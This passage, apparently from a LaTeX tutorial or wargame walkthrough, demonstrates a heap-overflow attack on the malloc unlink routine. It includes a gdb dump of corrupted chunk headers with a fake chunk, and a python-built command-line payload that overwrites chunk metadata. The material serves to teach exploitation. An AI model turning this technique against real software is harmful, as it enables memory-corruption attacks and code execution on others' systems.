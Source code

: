 So, we've crashed in exactly the same location, but now we've pinned down the exact
locations that \texttt{FD} and \texttt{BK} are loaded from. For clarity, we'll run
the program again, but examine how all our chunks are set up immediately after the
calls to \texttt{strcpy}.

\begin{lstlisting}
(gdb) x/32x 0x0804c000
0x804c000:      0x00000000      0x00000029      0x41414141      0x41414141
0x804c010:      0x41414141      0x41414141      0x41414141      0x41414141
0x804c020:      0x41414141      0x41414141      0xfffffffc      0xfffffffc
0x804c030:      0xf0f0f0f0      0x41414141      0x42424242      0x00000000
0x804c040:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c050:      0x00000000      0x00000029      0x00000043      0x00000000
0x804c060:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c070:      0x00000000      0x00000000      0x00000000      0x00000f89
\end{lstlisting}

As we can see (especially when comparing with the previous dump of such memory from
a ``clean" execution), we've corrupted \texttt{b}'s header, and placed a fake chunk
at \texttt{\&b+0x4}. Now, let's try doing something with \texttt{unlink} besides segfaulting
our program. For example, let's try changing a few bytes within \texttt{a}'s data portion.

\begin{lstlisting}
(gdb) r `python -c 'print("A"*32 + "\xfc\xff\xff\xff" + "\xfc\xff\xff\xff")'` `python -c 'print("\xf0"*4+"\x04\xc0\x04\x08"*4)'` C
dynamite failed?

Program exited with code 021.
\end{lstlisting}

No segfault! Now we'll breakpoint after each of our 3 calls to \texttt{free}
to see how things change.

